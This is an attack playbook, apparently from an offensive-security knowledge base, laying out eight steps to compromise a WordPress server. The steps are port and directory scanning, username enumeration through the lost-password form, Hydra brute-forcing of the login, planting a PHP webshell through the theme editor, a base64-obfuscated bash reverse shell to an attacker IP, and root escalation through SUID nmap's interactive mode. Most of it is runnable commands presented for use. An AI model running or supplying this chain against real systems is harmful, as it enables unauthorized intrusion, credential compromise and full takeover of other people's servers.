

# WordPress-Authenticated-RCE-to-Reverse-Shell-with-Privilege-Escalation

Multi-stage attack chain demonstrating reconnaissance, credential brute-forcing, authenticated code execution on a WordPress site, reverse shell upgrade, and Linux privilege escalation to root access.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 8 |
| Execution Time | ~2-4 hours |
| Skill Level | Advanced |
| Complexity | High |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Nmap]]
- [[tools/Wfuzz]]
- [[tools/Hydra]]
- [[tools/Burp-Suite]]

### Target Environment

- Linux-based web server hosting WordPress
- Open ports for HTTP/HTTPS (80/443)
- WordPress with theme editing privileges for authenticated users
- Vulnerable Nmap version (2.02-5.21) with SUID bit set

### Initial Access Requirements

- Network access to target IP
- Wordlists for usernames and passwords
- Attacker machine with listener (e.g., netcat on port 443)
- Valid domain or IP for hosting reverse shell script

## Detailed Attack Procedures

### Step 1: Perform Basic Port Scan
procedure: [[procedures/Basic-Port-Scan-with-Service-Enumeration]]

**Objective**: Identify open ports and services on the target, confirming web server presence.

**Instructions**: Run an Nmap scan to detect common ports and enumerate service versions, focusing on HTTP/HTTPS for WordPress confirmation.

Use [[commands/nmap-port-scan-with-service-version-detection]]:

```bash
nmap -sV $_TARGET_IP
```

Review output for web services on ports 80/443.

**Expected Output**: List of open ports with service banners, e.g., Apache or Nginx on port 80 indicating a web server.

**Success Indicators**:
- Web service detected on standard ports
- No firewall blocking basic scans

### Step 2: Enumerate Directories on Web App
procedure: [[procedures/Directory-Brute-Force-Web-App-with-Wfuzz]]

**Objective**: Discover hidden directories and files on the WordPress site to identify admin or login paths.

**Instructions**: Use Wfuzz to brute-force directories against the web root, filtering out 404 responses.

Execute [[commands/wfuzz-directory-brute-force]]:

```bash
wfuzz --hc 404 -c -w $_WORDLIST -u http://$_TARGET_IP/FUZZ
```

Look for paths like /wp-admin/ or /wp-login.php.

**Expected Output**: Table of responses showing 200/301/403 status codes for discovered paths, e.g., /wp-admin/ with 301 redirect.

**Success Indicators**:
- Discovery of /wp-login.php or admin directories
- Identification of WordPress-specific paths

### Step 3: Enumerate Valid Users via Forgotten Password
procedure: [[procedures/Brute-Force-Valid-Users-via-Forgotten-Password-Form]]

**Objective**: Identify valid usernames by exploiting differences in forgotten password responses.

**Instructions**: Intercept a forgotten password request with Burp Suite to capture POST data, then fuzz usernames with Wfuzz, hiding 200 responses for invalid users.

Use [[commands/wfuzz-brute-force-http-post-form]]:

```bash
wfuzz --hc 200 -w $_USERS_TXT -u 'http://$_TARGET_IP/wp-login.php?action=lostpassword' -d 'user_login=FUZZ&redirect_to=&wp-submit=Get+New+Password'
```

Valid users trigger 500 or different responses.

**Expected Output**: Valid usernames like 'admin' or 'elliot' with non-200 responses.

**Success Indicators**:
- List of valid usernames extracted
- Confirmation of user existence without alerting

### Step 4: Brute-Force Login Credentials
procedure: [[procedures/Brute-Force-Web-Login-Form-with-Hydra]]

**Objective**: Obtain valid credentials for WordPress admin access using brute-force on the login form.

**Instructions**: Capture login POST request with Burp to identify parameters (e.g., log, pwd), then use Hydra with username and password lists, specifying failure string.

Execute [[commands/hydra-brute-force-http-post-login-form]]:

```bash
hydra -L $_USERNAME_LIST -P $_PASSWORD_LIST $_TARGET_IP http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:incorrect'
```

**Expected Output**: Successful login credentials, e.g., [80][http-post-form] host: 10.10.10.10 login: admin password: secret!!!

**Success Indicators**:
- Valid credentials obtained
- Access to wp-admin dashboard

### Step 5: Inject PHP Code via Theme Editor
procedure: [[procedures/Add-and-Execute-PHP-Code-on-Authenticated-WordPress-Site]]

**Objective**: Achieve RCE by uploading a PHP webshell through the authenticated theme editor.

**Instructions**: Log in to wp-admin, navigate to Appearance > Theme Editor, select header.php, append PHP code, and update. Access via ?cmd=whoami.

Use the [[codes/PHP-Simple-Web-Shell]] code in the file.

**Expected Output**: Command output in browser, e.g., 'www-data' from whoami.

**Success Indicators**:
- PHP code executed without errors
- Command output visible in response

### Step 6: Upgrade RCE to Reverse Shell
procedure: [[procedures/Upgrade-Web-RCE-to-Reverse-Shell-on-Linux]]

**Objective**: Convert web-based RCE into an interactive reverse shell for better control.

**Instructions**: From the webshell, attempt direct execution of reverse shell. If blocked, base64-encode it or download from attacker server.

First, encode with [[commands/base64-encode-command]]:

```bash
echo -n 'bash -i >& /dev/tcp/$_ATTACKER_IP/443 0>&1' | base64 -w 0
```

Then execute via webshell: echo <encoded> | base64 -d | bash

Alternatively, host shell script with [[commands/python3-launch-http-server]] and wget it.

Use [[codes/Bash-TCP-Reverse-Shell-to-Port-443]] for the payload.

**Expected Output**: Connection to listener (nc -lvnp 443), shell prompt.

**Success Indicators**:
- Reverse shell connected
- Basic commands like id execute successfully

### Step 7: Enumerate Elevated Privilege Files
procedure: [[procedures/Find-Linux-Files-with-Elevated-Privileges]]

**Objective**: Identify setuid binaries and capabilities for potential privilege escalation paths.

**Instructions**: From the shell, search for setuid files and capabilities.

Run [[commands/find-setuid-files]]:

```bash
find / -perm -4000 -ls 2>/dev/null
```

And [[commands/getcap-list-capabilities]]:

```bash
getcap -r / 2>/dev/null
```

Look for vulnerable nmap or sudo binaries.

**Expected Output**: List of files like /usr/bin/nmap with rwsr-xr-x permissions.

**Success Indicators**:
- SUID nmap or other exploitable binaries found
- Capabilities like cap_net_raw identified

### Step 8: Escalate via Nmap Interactive Mode
procedure: [[procedures/Nmap-Interactive-Mode-Shell-Escape]]

**Objective**: Exploit vulnerable Nmap to escape to a root shell.

**Instructions**: If Nmap is SUID, run in interactive mode and escape to shell.

Execute [[commands/nmap-interactive-mode]]:

```bash
nmap --interactive
```

At prompt, type !sh.

**Expected Output**: Root shell prompt, confirmed by id showing uid=0(root).

**Success Indicators**:
- Privilege escalation to root
- Full system access achieved

## Attack Chain Summary

### Key Achievements

1. Service and directory enumeration confirming WordPress exposure
2. Credential brute-forcing for authenticated access
3. RCE via PHP webshell injection
4. Reverse shell establishment for persistence
5. Privilege escalation to root using Nmap vulnerability

---

*Last updated: 2023-05-29T16:48:53.162677+00:00*
